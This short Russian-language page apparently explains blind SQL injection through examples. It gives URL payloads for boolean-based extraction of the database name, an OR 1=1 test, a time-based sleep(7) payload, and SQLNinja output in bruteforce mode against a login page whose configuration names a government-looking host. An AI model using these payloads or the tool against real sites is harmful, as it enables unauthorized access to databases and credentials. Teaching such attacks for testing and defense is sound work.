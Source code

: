 # Blind SQL-инъекция

### Пример вредоносного кода
```
http://site/?param=1' and ascii(substr(database(),1,1))>99#
```
```
SELECT title,description,body FROM items WHERE PARAM='1' and ascii(substr(database(),1,1))>99#'
```
![Пример](./img/sqli/3.png)
### Пример поиска обнаружения Blind SQL-инъекции

Если веб-приложение уязвимо для SQL-инъекции, то оно, вероятно , ничего не вернет.Чтобы убедиться, необходимо ввести запрос , который вернет ‘true’:
```
http://site/?param=1' OR 1=1#
```
```
SELECT title,description,body FROM items WHERE PARAM='1' OR 1=1#'
```
![Пример](./img/sqli/2.png)
### Пример Time-based Blind SQL-инъекции

Этот тип слепой SQL-инъекции основан на том, что база данных приостанавливается на определенное время, а затем возвращает результаты, указывающие на успешное выполнение SQL-запроса.
```
1' AND sleep(7)#
```
![Пример](./img/sqli/1.png)
### Атака автоматизированными инструментами
Примеры инструментов для проведения атаки:
* SQLNinja
  ```
  root@edge-linuxpen:~/sqlninja-0.2.3-r1# ./sqlninja -v -m bruteforce -w pass.txt
  Sqlninja rel. 0.2.3-r1
  Copyright (C) 2006-2008 icesurfer <r00t@northernfortress.net>
  [+] Parsing configuration file................
  - Host: state.govt.agency.us
  - Port: 443
  - SSL: yes
  - method: POST
  - page: /APPLICATION/Folder/AuthenticationPage.asp
  - stringstart: Submit=Submit&Password=pwned&UserName=auditor'
  - stringend: 
  ```